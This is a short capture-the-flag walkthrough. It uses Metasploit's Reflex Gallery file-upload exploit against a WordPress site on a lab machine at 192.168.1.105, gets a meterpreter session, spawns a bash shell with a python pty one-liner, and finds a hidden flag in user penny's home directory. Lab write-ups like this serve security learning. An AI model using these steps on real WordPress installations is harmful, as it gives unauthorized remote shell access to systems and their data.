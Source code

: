 ```shell
msf5 > use exploit/unix/webapp/wp_reflexgallery_file_upload
```
![show-options](img/showoptions.PNG)
```shell
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOST 192.168.1.105
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set TARGETURI /music/wordpress/
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit
```
> As we can see, we have got a meterpreter connection. Now we need to spawn a shell

```shell
meterpreter > shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
> This will spawn a bash shell for us. 

```shell
cd /home/penny
ls -lah
```
> Here, we have a hidden file which is our flag!<br>
![Flag-penny](img/Fpenny.PNG)

---
